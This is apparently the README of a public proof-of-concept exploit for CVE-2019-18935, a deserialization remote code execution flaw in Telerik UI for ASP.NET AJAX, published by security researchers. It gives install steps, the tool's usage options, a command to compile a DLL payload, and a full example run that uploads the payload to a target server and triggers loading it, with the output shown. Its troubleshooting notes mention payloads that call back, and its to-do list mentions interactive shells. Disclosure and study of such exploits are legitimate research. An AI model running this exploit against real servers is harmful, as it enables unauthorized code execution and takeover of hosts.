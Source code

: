 # CVE-2019-18935

Proof-of-concept exploit for a .NET JSON deserialization vulnerability in Telerik UI for ASP.NET AJAX allowing remote code execution.

<div align="center">
    <img src="https://know.bishopfox.com/hubfs/Bishop-Fox_Blog-Post_Telerik_FI_frame.png" width="300px" />
</div>

## Description

[Telerik UI for ASP.NET AJAX](https://www.telerik.com/products/aspnet-ajax.aspx) is a widely used suite of UI components for web applications. It insecurely deserializes JSON objects in a manner that results in arbitrary remote code execution on the software's underlying host. For more information, see:
- The DerpCon talk [.NET Roulette](https://www.youtube.com/watch?v=--6PiuvBGAU) ([slides](https://know.bishopfox.com/cs/c/?cta_guid=80aa4ac9-84b9-45a4-9cf3-9f215e3f714a&placement_guid=f9ff0e1a-d44c-42ce-8be3-480356af7dc7&portal_id=5632775&canon=https%3A%2F%2Fknow.bishopfox.com%2Fevents%2Fbarrett-darnell-to-present-at-derpcon&redirect_url=APefjpGudybbT_RflCPD6bnEJCJeiyJQwOw2sIK_LZsJpPzGa3E7Q0zgcY2tAhXlkopDbQCzU_G0nEWApdZDnvmHG0BXZdg3RVqaDZTM7kRj-B-MgSRZtZf3sBb_IpKbpAYruI5qNjK-squ1hOQ-Ubq5hoeoYk8B_kwsDSuP7dyoJA5jUMpOdLd6GMURDLATA5GJfm0sOzClndse_fbJg10zBRMQ-byd_ikGcy3ttuQMBRJXkKHPCDFTMp5tODRK66YwFDGfL16GHjOiKLim0ORMvYzyCjOr6RS0qMUDfRbywQIcMWrd7hKI7XiphcZOXf7JcsstSrHn&click=a3983a0a-2932-41a5-b67f-deb4eee8a399&hsutk=2fd63671b84547f0be515dffcd468a6e&signature=AAH58kGXBfVBLDcwiB-xjb6tdRfjxsQXSw&pageId=28318760929&contentType=blog-post&__hstc=24978341.2fd63671b84547f0be515dffcd468a6e.1592575907261.1592575907261.1592575907261.1&__hssc=24978341.1.1592575907263&__hsfp=1563242614)) which details extra fundamentals about exploiting insecure deserialization, applies that to this exploit, and walks through some tips and tricks for getting shells on ASP.NET web applications.
- The [full write-up](https://hubs.ly/H0mfk7r0) at Bishop Fox, including a complete walkthrough of this vulnerability and exploit details for this issue (along with patching instructions).

## Getting started

### Prerequisites

You'll need [Visual Studio](https://visualstudio.microsoft.com/downloads/) installed to compile mixed-mode .NET assembly DLL payloads using `build_dll.bat`.

### Install

```bash
git clone https://github.com/noperator/CVE-2019-18935.git && cd CVE-2019-18935
python3 -m venv env
source env/bin/activate
python3 -m pip install -U pip
python3 -m pip install -r requirements.txt
```

This exploit leverages encryption logic from [RAU_crypto](https://github.com/bao7uo/RAU_crypto). The `RAUCipher` class within `RAU_crypto.py` depends on PyCryptodome, a drop-in [replacement](https://blog.sqreen.com/stop-using-pycrypto-use-pycryptodome/) for the [dead](https://github.com/dlitz/pycrypto/issues/238) PyCrypto module. PyCryptodome and PyCrypto create problems when installed in the same environment, so the best way to satisfy this dependency is to install the module within a virtual environment, as shown above.

### Configure

Point [line 26](https://github.com/noperator/CVE-2019-18935/blob/master/build_dll.bat#L26) of `build_dll.bat` to the path of your Visual Studio installation.

```vbscript
call "C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvarsall.bat" %%a
```

### Usage

```
$ python3 CVE-2019-18935.py -h
usage: CVE-2019-18935.py [-h] [-t] [-d] [-r FILENAME_REMOTE] [-s SMB_SERVER]
                         [-v UI_VERSION] [-n NET_VERSION] [-p PAYLOAD]
                         [-f FOLDER] -u URL

Exploit for CVE-2019-18935, a .NET JSON deserialization vulnerability in
Telerik UI for ASP.NET AJAX.

optional arguments:
  -h, --help          show this help message and exit
  -t                  just upload a file
  -d                  just deserialize
  -r FILENAME_REMOTE  remote payload name, for optional use with -d
  -s SMB_SERVER       remote SMB server, for optional use with -d
  -v UI_VERSION       software version
  -n NET_VERSION      .NET version
  -p PAYLOAD          mixed mode assembly DLL
  -f FOLDER           destination folder on target
  -u URL              https://<HOST>/Telerik.Web.UI.WebResource.axd?type=rau
```

#### Compile mixed mode assembly DLL payload

In a Windows environment with Visual Studio installed, use `build_dll.bat` to generate 32- and 64-bit mixed mode assembly DLLs to be used as a payload during deserialization.

```vbscript
build_dll.bat sleep.c
```

#### Upload and load payload into application via insecure deserialization

Pass the DLL generated above to `CVE-2019-18935.py`, which will upload the DLL to a directory on the target server (provided that the web server has write permissions) and then load that DLL into the application via the insecure deserialization exploit.

```
$ python3 CVE-2019-18935.py -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -v <VERSION> -f 'C:\Windows\Temp' -p sleep_2019121205271355_x86.dll
[*] Local payload name:  sleep_2019121205271355_x86.dll
[*] Destination folder:  C:\Windows\Temp
[*] Remote payload name: 1576142987.918625.dll

{'fileInfo': {'ContentLength': 75264,
              'ContentType': 'application/octet-stream',
              'DateJson': '1970-01-01T00:00:00.000Z',
              'FileName': '1576142987.918625.dll',
              'Index': 0},
 'metaData': {'AsyncUploadTypeName': 'Telerik.Web.UI.UploadedFileInfo, '
                                     'Telerik.Web.UI, Version=<VERSION>, '
                                     'Culture=neutral, '
                                     'PublicKeyToken=<TOKEN>',
              'TempFileName': '1576142987.918625.dll'}}

[*] Triggering deserialization...

<title>Runtime Error</title>
<span><H1>Server Error in '/' Application.<hr width=100% size=1 color=silver></H1>
<h2> <i>Runtime Error</i> </h2></span>
...omitted for brevity...

[*] Response time: 13.01 seconds
```

In the example above, the application took at least 10 seconds to respond, indicating that the DLL payload successfully invoked `Sleep(10000)`.

### Troubleshooting

- Each payload only works once. You'll need to compile and upload a new one each time you want the target to sleep, call back, etc.
- Ensure you're targeting the right architecture (32- or 64-bit). This may take some guesswork.

## Back matter

### Legal disclaimer

Usage of this tool for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

### Acknowledgements

[@mwulftange](https://twitter.com/mwulftange) initially [discovered](https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html) this vulnerability. [@bao7uo](https://github.com/bao7uo) wrote all of the logic for [breaking RadAsyncUpload encryption](https://github.com/bao7uo/RAU_crypto), which enabled manipulating the file upload configuration object in `rauPostData` and subsequently exploiting insecure deserialization of that object.

### See also

- [Telerik Revisited](https://codewhitesec.blogspot.com/2019/02/telerik-revisited.html) (@mwulftange)
- [RAU_crypto](https://github.com/bao7uo/RAU_crypto) (@bau7uo)
- .NET Roulette [talk](https://www.youtube.com/watch?v=--6PiuvBGAU) and [slides](https://know.bishopfox.com/cs/c/?cta_guid=80aa4ac9-84b9-45a4-9cf3-9f215e3f714a&placement_guid=f9ff0e1a-d44c-42ce-8be3-480356af7dc7&portal_id=5632775&canon=https%3A%2F%2Fknow.bishopfox.com%2Fevents%2Fbarrett-darnell-to-present-at-derpcon&redirect_url=APefjpGudybbT_RflCPD6bnEJCJeiyJQwOw2sIK_LZsJpPzGa3E7Q0zgcY2tAhXlkopDbQCzU_G0nEWApdZDnvmHG0BXZdg3RVqaDZTM7kRj-B-MgSRZtZf3sBb_IpKbpAYruI5qNjK-squ1hOQ-Ubq5hoeoYk8B_kwsDSuP7dyoJA5jUMpOdLd6GMURDLATA5GJfm0sOzClndse_fbJg10zBRMQ-byd_ikGcy3ttuQMBRJXkKHPCDFTMp5tODRK66YwFDGfL16GHjOiKLim0ORMvYzyCjOr6RS0qMUDfRbywQIcMWrd7hKI7XiphcZOXf7JcsstSrHn&click=a3983a0a-2932-41a5-b67f-deb4eee8a399&hsutk=2fd63671b84547f0be515dffcd468a6e&signature=AAH58kGXBfVBLDcwiB-xjb6tdRfjxsQXSw&pageId=28318760929&contentType=blog-post&__hstc=24978341.2fd63671b84547f0be515dffcd468a6e.1592575907261.1592575907261.1592575907261.1&__hssc=24978341.1.1592575907263&__hsfp=1563242614) (DerpCon)
- [Full write-up](https://hubs.ly/H0mfk7r0) (Bishop Fox)

### To-do

- [ ] Adjust C payload to optionally run a single command, rather than opening an interactive shell
- [ ] Modify the assembly name of already compiled DLL to avoid recompiling for the same target
- [ ] Demonstrate brute-forcing major Telerik UI versions (i.e., the _year_ portion of the version string)

### License

This project is licensed under the [Apache License](LICENSE.md).
